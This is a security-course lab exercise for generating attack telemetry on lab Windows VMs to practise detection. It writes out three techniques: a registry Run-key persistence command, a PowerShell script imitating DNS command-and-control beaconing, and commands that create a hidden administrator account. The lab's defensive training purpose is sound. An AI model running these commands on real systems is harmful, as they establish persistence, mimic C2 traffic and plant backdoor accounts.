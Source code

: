 # Module 7 - Lab 1 - Exercise 5 - Conduct attacks

### Task 1: Attack Windows configured with Defender for Endpoint.

In this task, you will perform attacks on a host with Microsoft Defender for Endpoint configured.

1. Login to WIN1 virtual machine with the password as provided in the environment tab.  

2. In the search of the task bar, enter *Command*.  Command Prompt will be displayed in the search results.  Right-click on the Command Prompt and select **Run as Administrator**. Select **Yes** in the User Account Control window that appears to allow the app to run.

3. In the command prompt, enter the command in each row pressing Enter key after each row:

    ```Command
    cd \
    mkdir temp
    cd temp
    ```
4. Attack 1 - Copy and run this command into the Command Prompt app:

    ```Command
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```

5. Attack 3 - Copy and run this command:

    ```Command
    notepad c2.ps1
    ```
Select **Yes** to create a new file and copy the following PowerShell script into *c2.ps1*.

>**Note:** Paste into the virtual machine might have a limited length. If direct copy from the instructions is unavailable, paste this code in three sections to ensure all the script is pasted into the Virtual Machine.  Make sure the script looks as it does in these instructions within the notepad *c2.ps1* file.

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)

$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
         $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }

    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

In the Notepad menu, select **File** and then **Save**. At the Command Prompt window, enter the following commands in each row pressing Enter key after each one. **Note:** You will see resolve errors. This is expected.

     ```CommandPrompt
     Start PowerShell.exe -file c2.ps1
     ```

>**Important:** Do not close the window. Let this command/powershell script run in the background. The command needs to generate log entries for some hours. You can proceed to the next task and next exercises while this script runs. The data created by this task will be used in the Threat Hunting lab later. This process will not create substantial amounts of data or processing.


### Task 2: Attack Windows configured with Sysmon

In this task, you will perform attacks on a host with the Security Events connector configured and Sysmon configured.

1. In the WIN1 virtual machine, search for **Hyper-V** from the bottom windows search bar and select to open.

1. Right click on the **WIN2** virtual machine and select start, then again right-click on the **WIN2** virtual machine and select **connect**.

1. Enter the **Password** as `Password.1!!` when prompted.

1. In the search of the task bar, enter *CMD*.  Command Prompt will be displayed in the search results.  Right-click on the Command Prompt and select **Run as Administrator**.  Accept and User Account Control prompts that appear.

1. In the command prompt, enter the command in each row pressing Enter key after each row:

    ```Command
    cd \
    mkdir temp
    cd temp
    ```

1. Attack 1 - Copy and run this command in the Command Prompt app:

    ```Command
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```

>**Note:** We are using the same *persistence* tactic just like in WIN1 but we will use different detections in the next exercise.

1. Attack 2 - Copy and run this command, enter the command in each row pressing Enter key after each row:

    ```Command
    net user theusernametoadd /add
    net user theusernametoadd ThePassword1!
    net localgroup administrators theusernametoadd /add
    ```

## Proceed to Exercise 6
